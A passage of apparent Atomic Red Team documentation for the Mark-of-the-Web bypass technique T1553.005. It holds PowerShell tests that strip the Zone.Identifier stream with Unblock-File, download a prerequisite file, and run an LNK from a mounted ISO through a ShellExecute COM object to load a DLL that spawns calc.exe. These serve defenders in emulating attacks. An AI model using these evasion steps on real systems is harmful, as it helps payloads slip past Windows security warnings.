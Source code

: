 #### Attack Commands: Run with `powershell`!

```powershell
Unblock-File -Path #{file_path}
```

#### Cleanup Commands:

```powershell
Set-Content -Path #{file_path} -Stream Zone.Identifier -Value '[ZoneTransfer]','ZoneId=3'
```

#### Dependencies: Run with `powershell`!

##### Description: A test file with the Zone.Identifier attribute must be present.

##### Check Prereq Commands:

```powershell
if (Test-Path #{file_path}) { EXIT 0 } else { EXIT 1 }
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest #{file_to_download} -OutFile #{file_path}
Set-Content -Path #{file_path} -Stream Zone.Identifier -Value '[ZoneTransfer]','ZoneId=3'
```

<br/>
<br/>

## Atomic Test #4 - Execute LNK file from ISO

Executes LNK file document.lnk from AllTheThings.iso. Link file executes cmd.exe and rundll32 to in order to load and execute AllTheThingsx64.dll from the ISO which spawns calc.exe.

**Supported Platforms:** Windows

**auto_generated_guid:** c2587b8d-743d-4985-aa50-c83394eaeb68

#### Inputs:

| Name        | Description      | Type | Default Value                                                  |
| ----------- | ---------------- | ---- | -------------------------------------------------------------- |
| path_of_iso | Path to ISO file | path | PathToAtomicsFolder&#92;T1553.005&#92;bin&#92;AllTheThings.iso |

#### Attack Commands: Run with `powershell`!

```powershell
Mount-DiskImage -ImagePath "#{path_of_iso}" -StorageType ISO -Access ReadOnly
$keep = Get-Volume -FileSystemLabel "AllTheThings"
$driveLetter = ($keep | Get-Volume).DriveLetter
$instance = [activator]::CreateInstance([type]::GetTypeFromCLSID("{c08afd90-f2a1-11d1-8455-00a0c91f3880}"))
$instance.Document.Application.ShellExecute($driveLetter+":\document.lnk","",$driveLetter+":\",$null,0)
```
